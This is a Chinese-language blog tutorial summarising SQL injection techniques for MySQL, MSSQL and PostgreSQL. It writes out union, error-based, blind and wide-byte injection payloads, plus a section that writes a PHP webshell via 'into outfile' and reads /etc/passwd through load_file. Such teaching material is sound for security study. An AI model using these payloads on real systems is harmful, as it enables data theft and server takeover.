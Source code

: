 ```yaml
---
title: SQL注入总结（一）
date: 2016-01-19 23:26:39
categories:
- Web安全
tag:
- SQL注入
---
```

<h2 id="intro">前言</h2>习惯sqlmap方便的的同时，会不知不觉依赖上，差点忘了根本，遂总结了一下，提醒自己

### 常见的SQL注入形式
- **读取数据库内容常用方式:**　information_schema，mysql.user
- **有回显的函数错误提示:** 有SQL错误显示；
- **无回显的函数错误提示:** 盲注，即没有有SQL错误显示；
- **加密形式:** SQL加密执行显示;
- **其他形式:** 宽字节注入等;
- **预防措施:** 如何避免；
- **常用函数:** sql自带的函数；
- **其他:** 补充的地方；

<!-- more -->
## 读取数据库内容常用方式
　　数据库都会有内置的表，里面已经包含了所有建表的信息。以MySQL为例。在５版本以上的数据库使用如下语句，就可以直接获得数据库的表的信息。
### MySQL
　　比如在MySQL下有
``` bash
    select group_concat(distinct table_name) from information_schema.columns where table_schema=database()
```
　　不理解的话，可以直接查阅MySQL的information_schema.columns表就会清楚。相关的字段有 table_name，table_schema，column_name。
　　mysql.user表相应的字段就会有User,Password.
　　通过这些方式我们大概就可以知道目标数据库，所应有的表信息，就可以进行相应的操作。注释的话比如--,#,/*等
### MSSQL
　　在MSSQL下
　　在开始前我们先来认识下默认系统表—sysdatabases。sysdatabases是MSSQL默认系统表，包含“master”，“msdb”，“mssqlweb”，“empdb”，“model”这五个表，对应的bdid的值为1到5，用户新建的数据库从bdid=6开始，我们可以通过修改bdid的值来得出库名，语句为：
``` bash
    select name from master.dbo.sysdatabases where dbid=1
    union select name from yourdatabasename.dbo.sysobjects where xtype=char(85) and name not in (select top XX name from yourdatabasename.dbo.sysobjects where xtype=char(85))--
```
　　上面的XX为数字，即表的序号，为数字。通过这种方式获得表名，接下来就是字段名。
　　然后分开两个步骤：
　　１.获得表段的总序号（与id不同）
``` bash
    union select id from yourdatabasename.dbo.sysobjects where xtype=char(85) and name not in (select top XX name from yourdatabasename.dbo.sysobjects where xtype=char(85))--
```
　　２.根据表的序号一个个列出字段的名字
``` bash
    union select name from yourdatabasename.dbo.syscolumns where ID=2073058421 and name not in (select top XX name from yourdatabasename.dbo.syscolumns where ID=2073058421 )--
```
　　这里的ID是通过上面的步骤得出来的。
　　其他技巧在针对字符输入的时候，由于不能使用引号可以采用如下方式:
``` bash
http://******?ID=1/**/And/**/(/**/select/**/top/**/1/**/name/**/from/**/
(/**/select/**/row_number()/**/over(/**/order/**/by/**/object_id)/**/as/**/rownumber,
*/**/from/**/Web.sys.all_objects/**/
where/**/type=char(85))A/**/where/**/rownumber=1)>0 
```
　　通过修改rownumber可以获得表名，图上的数据库名为Web，如果是其他表的那就不会一样了
　　同样用类似的方法可以获得字段
``` bash
http://××××?ID=1/**/
And/**/(/**/select/**/top/**/1/**/COLUMN_NAME/**/
from(/**/select/**/row_number()/**/over(/**/order/**/by/**/ORDINAL_POSITION)/**/as/**/rownumber,
*/**/from/**/Web.information_schema.columns/**/
where/**/TABLE_NAME=NCHAR(31649)%2bNCHAR(29702)%2bnchar(24080)%2bnchar(25143))/**/A/**
/where/**/rownumber=2)>0 
```
　　%2b为＋号，由于表名是中文，就会出现上面的样子，不是中文就不会这样。
### PostgreSQL
　　在PostgreSQL下
　　PostgreSQL常用的自带函数有:
``` bash
    union select datname from pg_database
    order by 11                                         #猜字段
    and (select length(current_database())) between 0,30 　　　　　　#判断数据库长度
    and(select ascii(substr(current_database(),1,1))) between 0,64　　#判断数据库名的第１位是否是在０,64的ascii码之间。
    select relname from pg_stat_user_tables limit 1 offset n;
    and(select count(*) from pg_stat_user_tables) between 0,64　　#判断数据库表数
    and(select length(relname) from pg_stat_user_tables limit 1 offset 0) between 0,64　　#判断数据库表第一个表的长度
    and(select ascii(substr(relname,1,1)) from pg_stat_user_tables limit 1 offset 0) between 0,64　　#判断数据库第一张表的第一个字符

```
　　相应的操作其实和MySQL的操作类似，也可以直接使用MySQL的方式得出相应的数据
## 有回显的函数错误提示
　　针对有函数回显，方式就会方便很多。可以通过union select 先得到应有的字段有多少个，如果不是数字型记得把数字换成null。union和union all的区别是,union会自动压缩多个结果集合中的重复结果，而union all则将所有的结果全部显示出来，不管是不是重复。此外猜字段的方式还可以用having '1'='1'的方式来，通过错误提示，间接的得到表的属性字段。其他方式的话，自由发挥。
　　有时候的回显，并不是直接建立在可视化的模块的界面，而是只有SQL内置报错函数的时候，就需要使用另一种方式，比如：
```bash
    and 1=2 union select 1 from (select count(*),concat(floor(rand(0)*2),(the code you put))a from information_schema.tables group by a)b  
```
　　这句话的思路是通过floor(rand(0)*2)可能出现1或０的状况在group的时候，会出错，就会直接显示出错的地方，从而显示相应的字段或者数据，使用时，常常会用到limit,当然这种方法也有局限性，比如不能使用update,select into,insert,load_file(),group_concat()等函数，所以使用的时候，就会有相应的限制。得出的错误，会在开头多出一个１，所以去掉就可以了。
## 无回显的函数错误提示
　　在没有回显的状态下如何判断存在注入，最直观的情况下，可以用benchmark等类似的延迟函数，看有没有延迟返回，来判断有没有执行SQL语句。
　　针对返回只有true和false的这种情况，可以通过构造一个判断，来猜表的相应的内容。
　　比如：
```bash
    and left(databse(),1)='1'　　　　　　　　　　　　 #猜数据库名的第一位是１
    and length(databse())='1'　　　　　　　　　　　   #猜数据库名长度为１
    and substr(left(role,1),1,1)=char(49) %23　　 　　　#该表的role字段第一位为１,char(49)=1
```
　　通过类似这些方式进行猜解。当然为了避免php的GPC函数，需要用到hex函数以及使用ascii码来绕过，比如上图中的３的示例。
## 加密形式
　　有些程序员会通过将查询的部分加密，然后传到服务器解密，然后进行查询。常见的方式有base64,以及其他的方式。这时候策略就会和之前一样，只不过，在构造的时候，多一部分编码就可以了。
## 其他形式
### 宽字节注入
　　比如%df’ 被PHP转义（开启GPC、用addslashes函数，或者icov等），单引号被加上反斜杠\，变成了 %df\’，其中\的十六进制是 %5C ，那么现在 %df\’ =%df%5c%27，如果程序的默认字符集是GBK等宽字节字符集，则MYSQL用GBK的编码时，会认为 %df%5c 是一个宽字符，也就是縗’，也就是说：%df\’ = %df%5c%27=縗’，有了单引号就好注入了。其实不仅仅是%df可以，其他附近还有一定领域的也可以，可以字节去查一下。
## 常用函数
　　MySQL常用的自带函数有:
``` bash
    user()                               //显示数据库用户
    database()                      //当前数据库名
    version()                        //数据库版本
    concat()                          //联合数据
    group_concat()             //多组数据拼接
    hex()                                 //十六进制编码
    unhex()                             //十六进制解码
    load_file()                     //读取文件
    @@datadir                    //数据路径
    @@tmpdir                       //临时路径
    @@version                     //数据库版本

```

　　其他的诸如 @@version_comment，@@version_compile_os，@@warning_count等可以自己去翻一下。
　　此外用到比如转换类型比如convert( using latin1),以及select file into outfile'/asd/a.a'可以自己去尝试。
　　MSSQL常用的自带函数有:
``` bash
    db_name()                               //显示数据库名
```
　　PostgreSQL常用的自带函数有:
``` bash
    version()                               //显示数据库版本信息

```
## shell编写
``` bash
    create table test (a text);
    insert into test(a) values('code that you print');
    select a from text into outfile 'C://asd//a.php'
    #读取文件操作
    create table test (a text);
    insert into test(a) values(load_file('/etc/passwd'));
    select a from test 

```
## 预防措施
　　如果只有int的参数，最好最后直接转换为int类型，这样就可以避免注入，此外针对一些特殊的函数符号进行过滤。其他的一部分，下次会继续讲解，包括绕过等一些方式。
当然因为篇幅的原因，很多东西没有延伸开来，如果有错误的话欢迎指正。